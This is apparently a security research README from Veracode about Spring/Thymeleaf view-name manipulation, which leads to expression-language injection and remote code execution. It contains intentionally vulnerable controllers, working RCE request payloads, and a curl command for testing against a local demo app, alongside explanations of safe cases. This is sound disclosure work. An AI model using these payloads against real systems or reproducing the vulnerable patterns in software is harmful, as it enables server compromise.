

#### Spring View Manipulation Vulnerability

In this article, we explain how dangerous an unrestricted view name manipulation in Spring Framework could be. Before doing so, let's look at the simplest Spring application that uses Thymeleaf as a templating engine:

Structure:<br>
<br>

[HelloController.java](src/main/java/com/veracode/research/HelloController.java):
```java
@Controller
public class HelloController {

    @GetMapping("/")
    public String index(Model model) {
        model.addAttribute("message", "happy birthday");
        return "welcome";
    }
}
```

Due to the use of `@Controller` and `@GetMapping("/")` annotations, this method will be called for every HTTP GET request for the root url ('/'). It does not have any parameters and returns a static string "welcome".
Spring framework interprets "welcome" as a View name, and tries to find a file "resources/templates/welcome.html" located in the application resources. If it finds it, it renders the view from the template file and returns to the user.
If the Thymeleaf view engine is in use (which is the most popular for Spring), the template may look like this:

[welcome.html](src/main/resources/templates/welcome.html):
```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

Thymeleaf engine also support [file layouts](https://www.thymeleaf.org/doc/articles/layouts.html). For example, you can specify a fragment in the template by using `<div th:fragment="main">` and then request only this fragment from the view:
```java
@GetMapping("/main")
public String fragment() {
    return "welcome :: main";
}
```
Thymeleaf is intelligent enough to return only the 'main' div from the welcome view, not the whole document.

From a security perspective, there may be a situation when a template name or a fragment are concatenated with untrusted data. For example, with a request parameter:
```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}

@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section; //fragment is tainted
}
```

The first case may contain a potential path traversal vulnerability, but a user is limited to the 'templates' folder on the server and cannot view any files outside it. The obvious exploitation approach would be to try to find a separate file upload and create a new template, but that's a different issue.

**Luckily for bad guys**, before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:
```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```
So, the aforementioned controllers may be exploited not by path traversal, but by expression language injection:
#### Exploit for /path (should be url-encoded)
```http
GET /path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x HTTP/1.1
```
<p align="center"></p>

In this exploit we use the power of [expression preprocessing](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/): by surrounding the expression with `__${` and `}__::.x` we can make sure it's executed by thymeleaf no matter what prefixes or suffixes are.

**To summarize**, whenever untrusted data comes to a view name returned from the controller, it could lead to expression language injection and therefore to Remote Code Execution.

#### Even more magic
In the previous examples, controllers return strings, explicitly telling Spring what view name to use, but that's not always the case. As [described in the documentation](https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html#mvc-ann-return-types), for some return types such as `void`, `java.util.Map` or `org.springframework.ui.Model`:
> the view name implicitly determined through a RequestToViewNameTranslator

It means that a controller like this:
```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```
may look absolutely innocent at first glance, it does almost nothing, but since Spring does not know what View name to use, **it takes it from the request URI**. Specifically, DefaultRequestToViewNameTranslator does the following:

```java
/**
 * Translates the request URI of the incoming {@link HttpServletRequest}
 * into the view name based on the configured parameters.
 * @see org.springframework.web.util.UrlPathHelper#getLookupPathForRequest
 * @see #transformPath
 */
@Override
public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request, HandlerMapping.LOOKUP_PATH);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}
```

So it also become vulnerable as the user controlled data (URI) comes directly to view name and resolved as expression.

#### Exploit for /doc (should be url-encoded)
```http
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
```

#### Safe case: ResponseBody

There are also some cases when a controller returns a used-controlled value, but they are not vulnerable to view name manipulation. For example, when the controller is annotated with @ResponseBody:

```java
@GetMapping("/safe/fragment")
@ResponseBody
public String safeFragment(@RequestParam String section) {
    return "welcome :: " + section; //FP, as @ResponseBody annotation tells Spring to process the return values as body, instead of view name
}
```

In this case, Spring Framework does not interpret it as a view name, but just returns this string in HTTP Response. The same applies to @RestController on a class, as internally it inherits @ResponseBody.

#### Safe case: A redirect

```java
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //CWE-601, as we can control the hostname in redirect
}
```

When the view name is prepended by `"redirect:"` the logic is also different. In this case, Spring does not use [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) anymore but a [RedirectView](https://github.com/spring-projects/spring-framework/blob/master/spring-webmvc/src/main/java/org/springframework/web/servlet/view/RedirectView.java), which does not perform expression evaluation. This example still has an open redirect vulnerability, but it is certainly not as dangerous as RCE via expression evaluation.

#### Safe case: Response is already processed

```java
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
```

This case is very similar to one of the previous vulnerable examples, but since the controller has *HttpServletResponse* in parameters, Spring considers that it's already processed the HTTP Response, so the view name resolution just does not happen. This check exists in the *ServletResponseMethodArgumentResolver* class.

#### Conclusion
Spring is a framework with a bit of magic, it allows developers to write less code but sometimes this magic turns black. It's important to understand situations when user controlled data goes to sensitive variables (such as view names) and prevent them accordingly. Stay safe.

#### Test locally

Java 8+ and Maven required

```bash
cd spring-view-manipulation
mvn spring-boot:run
curl 'localhost:8090/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x'
```

#### Credits
This project was co-authored by [Michael Stepankin](https://twitter.com/artsploit) and [Giuseppe Trovato](https://twitter.com/otavorteppesuig) at Veracode<br>
Authors would like to thank [Aleksei Tiurin](https://www.acunetix.com/blog/author/alekseitiurin/) from Acunetix for the excellent research on [SSTI vulnerabilities in Thymeleaf](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)